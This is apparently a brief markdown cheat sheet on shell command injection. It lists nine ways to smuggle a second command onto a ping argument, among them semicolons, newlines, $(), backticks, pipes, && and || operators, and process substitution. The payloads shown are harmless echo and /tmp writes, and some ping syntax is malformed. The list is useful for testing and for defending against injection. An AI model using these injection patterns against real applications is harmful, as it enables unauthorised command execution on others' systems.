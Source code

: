 # Command Injection

## 1) Semicolon
```
ping -c1 127.0.0.1 ; echo injection
```

## 2) New line
```
ping -c1 127.0.0.1 %0a echo injection
```

## 3) $()
```
ping -c1 127.0.0.1 $(echo 1 > /tmp/test)
```

## 4) ``
```
ping -c1 127.0.0.1 `echo 1 > /tmp/test`
```

## 5) &
```
ping -c1 127.0.0.1 %26 echo injection # %26 -> &
```

## 6) && - AND
First part need to success
```
ping -c1 127.0.0.1 %26%26 echo injection # %26 -> &
```

## 7) |
```
ping -c1 127.0.0.1 | echo injection
```

## 8) || - OR
First part need to fail
```
ping -c1 || echo injection
```

## 9) Process substitution
```
ping -c 127.0.0.1 <(echo 1 > /tmp/test)
```
